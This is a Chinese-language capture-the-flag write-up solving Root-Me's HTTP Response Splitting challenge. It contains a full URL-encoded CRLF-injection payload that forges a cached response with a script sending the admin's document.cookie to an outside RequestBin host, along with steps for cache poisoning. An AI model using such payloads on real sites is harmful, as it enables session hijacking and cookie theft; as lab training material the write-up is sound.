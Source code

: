 

回到前面的 `[注入点]` ，根据我们期望的响应内容，将其转换成 URL 编码，因此在 `[注入点]` 的位置构造 payload 应该是这样的：

```html
%0D%0AContent-%20Length%3A%200
%0D%0A
%0D%0AHTTP%2F1.1%20200%20OK
%0D%0AContent-Type%3A%20text%2Fhtml
%0D%0AX-XSS-Protection%3A%200
%0D%0ALast-Modified%3A%20Thu%2C%2001%20Jan%202099%2012%3A00%3A00%20GMT%20
%0D%0AContent-Length%3A%20137
%0D%0A
%0D%0A%3cscript%3edocument.write(%22%3ch1%3eEXP%3c%2fh1%3e%3cimg%20src%3dhttp%3a%2f%2frequestbin.fullcontact.com%2f148xfw11%3f%22.concat(document.cookie).concat(%22%20%2f%3e%22))%3c%2fscript%3e
```

我们把每部分拼接起来，<font color="red">**最终的 payload 请求**</font> 是这样的：

```html
http://challenge01.root-me.org:58002/user/param?lang=fr%0D%0AContent-%20Length%3A%200%0D%0A%0D%0AHTTP%2F1.1%20200%20OK%0D%0AContent-Type%3A%20text%2Fhtml%0D%0AX-XSS-Protection%3A%200%0D%0ALast-Modified%3A%20Thu%2C%2001%20Jan%202099%2012%3A00%3A00%20GMT%20%0D%0AContent-Length%3A%20137%0D%0A%0D%0A%3cscript%3edocument.write(%22%3ch1%3eEXP%3c%2fh1%3e%3cimg%20src%3dhttp%3a%2f%2frequestbin.fullcontact.com%2f148xfw11%3f%22.concat(document.cookie).concat(%22%20%2f%3e%22))%3c%2fscript%3e
```

现在尝试通过 Burp 把 payload 发送到服务器，看看效果如何：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B16%5D%20%5B70P%5D%20HTTP%20Response%20Splitting/imgs/05.png)

------------

## 发起攻击

既然拥有 payload 就可以发起攻击了，步骤其实很简单，前面也已经说过了：

- (1) 提交前面的 payload 请求
- (2) 马上访问 [http://challenge01.root-me.org:58002/admin](http://challenge01.root-me.org:58002/admin) 页面，如果返回的是我们构造的 payload 响应页面，则污染缓存成功
- (3) 登录 payload 响应页面中预设的 [RequestBin](http://requestbin.fullcontact.com) 服务器等待管理员 Cookie

------------

## 攻击过程的细节

事实上，攻击过程并没有我们想象中顺利，这是这题最恶心的地方，尤其是在不知道自己的 payload 是否正确的前提下，真的能调试到你怀疑人设。

总结一下，我遇到的细节问题有以下这些：

- 经测试无法使用 Burp 发起缓存污染攻击，原因不明。
- 只有 IE 或 Edge 浏览器可以用来执行这个挑战，且要求 IE 或 Edge 关闭所有安全选项。
- 发起 payload 请求后，服务器默认的第一个响应是一个 302 页面，跳转的 `Location` 是 `/home` 页面。由于其跳转速度非常快，导致我们尝试使用 `/admin` 请求绑定我们构造的第二个 payload 响应前，就很可能被 `/home` 请求抢先一步绑定了 payload 响应（**换言之可供我们操作的时间可能还不到 1 秒**）。
- Robot 管理员只会扫描 `/admin` 页面，如果被 `/home` 抢先一步绑定了第二个 payload 响应，那么我们构造的 payload 就无法窃取管理员 Cookie 。亦即第一个响应的 302 跳转目的之一是拦截我们的污染缓存攻击。
- Robot 管理员的行为不可预见，亦即它在访问 `/admin` 页面时，会不会读取图片、有没有启用 JS 脚本等都是未知的，我们需要逐个 html 标签进行注入调试。
- 由于这个挑战是运行在沙盒的，这个沙盒会对每个新的挑战 Cookie 分配一个 SessionId 。因此若某一次污染缓存失败或窃取 Cookie 失败，就需要重新领取一个新的 SessionId 进行调试。而在 Burp 无法使用的情况下，要获取新的 SessionId 只有一个方法，重置挑战环境参数：注销 rootme 的登陆，清除浏览器 Cookie 和缓存，然后重登 rootme 再重开挑战。
- 反向代理缓存的过期时间是 15 分钟，亦即在绑定 `/admin` 与 payload 响应失败后，要么等 15 分钟再试，要么重置挑战环境参数（这个是真的烦，繁琐的重置步骤能重置到吐血）。
- 由于这是一个沙盒，且 Robot 管理员是通过 SessionId 区分每个用户的挑战环境的，因此可以考虑通过代码并行操作来提高污染缓存的成功率。
- Chrome 和 Firefox 浏览器因自身的安全机制，是无法某些渗透攻击的，包括这个挑战在内。因为这个挑战的 payload 会不断用到重定向，导致多试几次就会报错并拦截攻击：
![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B16%5D%20%5B70P%5D%20HTTP%20Response%20Splitting/imgs/06.png)
